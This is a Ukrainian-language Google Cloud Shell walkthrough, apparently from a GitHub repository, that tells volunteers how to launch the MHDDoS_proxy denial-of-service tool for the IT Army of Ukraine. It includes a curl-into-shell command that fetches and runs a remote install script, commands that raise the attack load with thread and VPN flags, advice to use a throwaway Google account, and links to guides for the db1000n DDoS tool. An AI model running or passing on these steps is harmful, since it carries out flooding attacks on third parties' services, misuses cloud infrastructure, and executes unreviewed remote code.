 
#   Все буде Україна! 💙💛

## Привіт друзі
Бажаю вам чудового настною та гарного дня!
### Не використовуйте персональний аккаунт.
  
- Інструкція 👉  [як створити новий обліковий запис Google](https://support.google.com/accounts/answer/27441?hl=uk)
- Для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі.
  Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною  ***після закінчення даного сеансу***.

###  Зверніть увагу   
Якщо з'єднання перервано не підключайтесь вдруге бо вийдете з **ефемерного режиму**. Краще ***завантажтесь знову***, натиснувши кнопку розташовану нижче

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

Щоб запустити *MHDDoS_proxy* натисніть кнопку **START**

 ## Давайте почнемо

-  Для запуска MHDDoS_proxy скопіюйте команду розташовану нижче та натисніть клавішу **ENTER** 
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/mhddos_proxy_install.sh)
```
-   Якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши **Ctrl+C** та запустіть команду зі збілшеним навантаженням розташовану нижче
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 500 --itarmy --vpn
```
-   або наступну команду з ще більшим навантаженням
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 600 --itarmy --vpn
```
### Щоб переглянути навантаження на процесор використаємо команду **htop**
-   Додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та виконайте наступну команду
```bash
htop -F ./db
```

## **Пропоную для ознайомлення:**

* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **«Death by 1000 needles» (db1000n)**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

* Інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

* Інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
 
* Офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
